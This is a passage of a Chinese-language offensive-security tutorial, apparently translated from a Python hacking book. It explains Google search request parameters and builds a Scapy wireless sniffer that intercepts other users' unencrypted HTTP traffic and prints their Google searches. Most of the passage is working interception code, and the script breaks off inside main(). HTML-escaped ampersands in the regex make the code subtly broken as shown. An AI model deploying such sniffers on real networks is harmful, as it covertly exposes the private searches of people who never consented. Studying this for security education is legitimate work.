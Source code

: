 ## 构建 Google 无线搜索记录器

你可能注意到 Google 搜索引擎提供接近即时的反馈，当你在搜索框中输入时。取决于你连接网络的速度，你的浏览器会发送一个 HTTP GET 请求几乎在你每输入一个字符到搜索框中时。检查下面到 Google 的 HTTP GET 请求，当我搜索字符串`"what is the meaning of life?"`时，请注意，搜索以`q=`我的字符串开始，然后以`&`结束`pq=`跟着以前的搜索。

```
GET
/s?hl=en&amp;cp=27&amp;gs_id=58&amp;xhr=t&amp;q=what%20is%20the%20meaning%20of%20life&amp;pq=the+number+42&amp;<..SNIPPED..> HTTP/1.1
Host: www.google.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_2)
AppleWebKit/534.51.22 (KHTML, like Gecko) Version/5.1.1
Safari/534.51.22
<..SNIPPED..>

q=             Query, what was typed in the search box
pq=            Previous query, the query prior to the current search
hl=             Language, default en[glish] defaults, but try xx-hacker for fun
as_epq=         Exact phrase
as_filetype=      File format, restrict to a specific file type such as .zip
as_sitesearch=    Restrict to a specific site such as www.2600.com 
```

有了 Google 搜索引擎的知识在手，让我们快速构建一个无线数据包嗅探器，实时打印我们拦截到的他们搜索的东西。这一次我们将使用函数`findGoogle()`处理嗅探的数据包。这里我们将复制数据包的内容数据到`payload`变量，如果这个`payload`包含 HTTP GET 我们就能构建一个正则表达式找到当前 Google 的搜索字符串。最后我们将清除结果字符串，HTTP URL 不能包含任何空格字符。为了避免这个问题，我们的浏览器将编码空格为+或者%20，在 URL 中。为了正确的转换这些信息，我们必须解码任何`+`或者`%20`为空格。

```
def findGoogle(pkt):
    if pkt.haslayer(Raw):
        payload = pkt.getlayer(Raw).load
        if 'GET' in payload:
            if 'google' in payload:
                r = re.findall(r'(?i)\&amp;q=(.*?)\&amp;', payload)
                if r:
                    search = r[0].split('&amp;')[0]
                    search = search.replace('q=', '').replace('+', ' ').replace('%20', ' ')
                    print('[+] Searched For: ' + search) 
```

将我们整个 Google 嗅探器的脚本放在一起，我们现在可以看到他们搜索过的 Google 内容。请注意，我们现在可以使用`sniff()`函数过滤只要 TCP 80 端口的流量。虽然 Google 提供发送在 443 端口 HTTPS 的流量的能力，捕获这个流量事没有用的，因为是加密的。因此我们只捕获 80 端口的 HTTP 流量。

```
# coding=UTF-8
import optparse
from scapy.all import *

def findGoogle(pkt):
    if pkt.haslayer(Raw):
        payload = pkt.getlayer(Raw).load
        if 'GET' in payload:
            if 'google' in payload:
                r = re.findall(r'(?i)\&amp;q=(.*?)\&amp;', payload)
                if r:
                    search = r[0].split('&amp;')[0]
                    search = search.replace('q=', '').replace('+', ' ').replace('%20', ' ')
                    print('[+] Searched For: ' + search)

def main():
    parser = optparse.OptionParser('usage %prog -i <interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
        print parser.usage
        exit(0)
```